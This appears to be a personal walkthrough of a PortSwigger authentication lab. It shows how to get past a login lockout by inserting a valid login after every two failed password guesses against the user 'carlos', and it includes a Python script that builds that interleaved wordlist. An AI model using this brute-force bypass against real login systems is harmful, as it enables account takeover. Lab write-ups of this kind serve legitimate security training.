 We have our creds and break into the account , we see that we can change the email of our user and we need to login as carlos as said in the description with the password list given to us:
we first look at the bruteforce if it is protected by it or not:
Looks like it is :
![[walkthroughs/Portswigger/Authenication/images/Pasted image 20230827151446.png]]
so we need to bypass it , we need to see what the server is using as to identify the attempts
we tried:
* different password every time we were blocked
* different name 
* different both
* we removed certain headers too, we also changed user-agent
* after being blocked we gave right creds
* we used headers like: XFF , XF....
Not worked
we observe that when we give the wrong creds 3 times we get blocked and when we give the right password after 2 times wrong it gets reset , we created a wordlist for that stuffing wiener , peter after 2 times:
with this code:
```python
import sys

def append_words(input_file, output_file, word):
    with open(input_file, 'r') as file:
        lines = file.readlines()

    with open(output_file, 'w') as file:
        for i, line in enumerate(lines):
            file.write(line)
            # Insert the word after every n lines
            if i % 2 == 0 and i != len(lines)-1 :  # Replace n with the desired number of lines
                file.write(word + '\n')

    # Remove the last line if it contains the same word
    with open(output_file, "r+") as file:
        lines = file.readlines()
        if lines[-1].strip() == word:
            file.seek(0)  # Move the file pointer to the beginning of the file
            file.writelines(lines[:-1])  # Write all lines except the last line

    print(f"Word '{word}' appended to alternate lines in '{output_file}'.")

if len(sys.argv) >= 4:
    input_file = sys.argv[1]
    output_file = sys.argv[2]
    word = sys.argv[3]

    append_words(input_file, output_file, word)
else:
    print("Usage: python script.py <input_file> <output_file> <word>")

```
and start the attack:
![[walkthroughs/Portswigger/Authenication/images/Pasted image 20230827163241.png]]
![[walkthroughs/Portswigger/Authenication/images/Pasted image 20230827163341.png]]
